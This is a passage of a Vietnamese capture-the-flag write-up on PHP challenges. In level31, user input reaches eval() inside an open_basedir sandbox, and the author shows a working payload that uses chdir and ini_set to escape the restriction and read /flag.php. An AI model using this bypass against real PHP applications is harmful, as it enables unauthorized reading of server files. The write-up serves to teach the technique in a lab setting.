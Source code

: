 Hoặc dùng intruder của burp suite rồi filter những hàm mình cần thôi, vì đọc code thấy file flag được include rồi sau đó sẽ cho biến `$a` xử lí gì với class A gì đó không rõ, nhưng var_dump nó thì được flag

![image](https://user-images.githubusercontent.com/75429369/180120246-db0c6536-f62b-4f5a-a349-ef425520b10c.png)

![image](https://user-images.githubusercontent.com/75429369/180119897-9845d849-6605-4fa3-87b7-e6fd0a2b3fcd.png)

![image](https://user-images.githubusercontent.com/75429369/180119919-dc9361ee-1539-4984-9536-c6479f55a8ad.png)

![image](https://user-images.githubusercontent.com/75429369/180119951-0edfc8bd-0bf4-46b7-8870-161574d2b578.png)

# level31

Bài cho ta có thể nhập một lệnh php nào đó và bảo chúng ta làm sao để đọc `./flag.php`, đoạn code cần chú ý như sau

```php
 <?php
ini_set('open_basedir', '/sandbox');
chdir('/sandbox');

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

if (isset ($_GET['c'])) {
    die (eval ($_GET['c']));
}
?>
```

Ở đây thì basedir là `/sandbox`, đọc thử `flag.php` thì không có trong thư mục hiện tại là `/sandbox`

```php
readfile('./flag.php');
```

![image](https://user-images.githubusercontent.com/75429369/183091836-ca050ab7-2893-48a0-a9bb-53421c5cebcf.png)

Như vậy thì file này chỉ có thể là ở directory khác, mà cái `open_basedir` thì không cho phép ta truy cập tới thư mục khác được.

![image](https://user-images.githubusercontent.com/75429369/183092162-5c5bc1cc-9047-430d-a64b-0c3deb9c0757.png)

Đoạn `eval` bên dưới thì chả có gì để nói rồi, nên mục tiêu của ta chỉ là bypass được chỗ `open_basedir` là xong, mình có tham khảo được bài [này](https://twitter.com/eboda_/status/1113839230608797696) 

![image](https://user-images.githubusercontent.com/75429369/183096618-32fd74f6-f1f9-4c3e-99d1-f91f35844b4d.png)

Sử dụng nó thử nào, giờ ta phải tìm được sub-directory của `/sandbox` đã, cái này thì dễ rồi

```php
print_r(scandir('.'));
```

![image](https://user-images.githubusercontent.com/75429369/183096929-6abdc4e5-c9b3-419a-bbc7-a802b3ef8d22.png)

Là `tmp`, hoàn thiện payload thôi:

```php
chdir('tmp'); ini_set('open_basedir','..'); chdir('..'); chdir('..'); chdir('..'); ini_set('open_basedir','/'); readfile('/flag.php');
```

![image](https://user-images.githubusercontent.com/75429369/183097086-9a69eb04-25af-4e65-b562-aa73a7853dbf.png)
